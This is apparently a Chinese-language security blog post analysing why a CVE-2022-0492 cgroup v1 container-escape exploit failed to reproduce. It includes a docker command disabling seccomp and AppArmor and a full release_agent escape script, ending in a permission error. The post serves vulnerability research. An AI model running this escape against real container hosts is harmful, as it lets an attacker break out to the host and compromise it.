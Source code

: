 ```yaml
---

tags: Cloud Native Security News, CVE-2022-0492
version: v0.1.2
changelog:
  - v0.1.2: update

---
```


## CVE-2022-0492导致的容器逃逸无法复现原因分析

### 前言
> 漏洞原理：当容器有 `CAP_SYS_ADMIN` 权限时，我们可以通过 cgroup v1 的 `notify_on_release` 机制进行容器逃逸。CVE-2022-0492 则是没有校验当前用户命名空间 Linux Capability 是否为容器创时命名空间，就算启动容器时**没有赋予 CAP_SYS_ADMIN** 权限，导致我们可以利用 `unshare` 创建新的新的命名空间时拥有所有 Linux Capability（当然这个和 uid 映射一样，非真正 root 的 Linux Capability），从而利用 `CAP_SYS_ADMIN` 的逃逸姿势进行容器逃逸。
>
详情可戳 👇 

https://blog.csdn.net/Breeze_CAT/article/details/123427680


但我在复现的时候，复现不了

容器启动命令（当然在 k8s 下也试过部署Pod了）

```bash
#关闭所有安全防护启动docker
docker run --rm -it -h cve --name cve --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash
```

利用 exp（这里先说下，这个 exp 是没问题的）

```bash
unshare -UrmC --propagation=unchanged bash
mkdir /mnt/cgroup
mount -t cgroup -o rdma cgroup /mnt/cgroup
mkdir /mnt/cgroup/x
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo 1 > /mnt/cgroup/x/notify_on_release
touch /cmd
echo '#!/bin/sh' > /cmd
echo "ps -ef >> $host_path/result"  >> /cmd
chmod 777 /cmd
echo "$host_path/cmd" > /mnt/cgroup/release_agent
sh -c "echo \$\$ >  /mnt/cgroup/x/cgroup.procs"
```

但会在写 release_agent 的时候出现

```bash
bash: /mnt/cgroup/release_agent: Permission denied
```
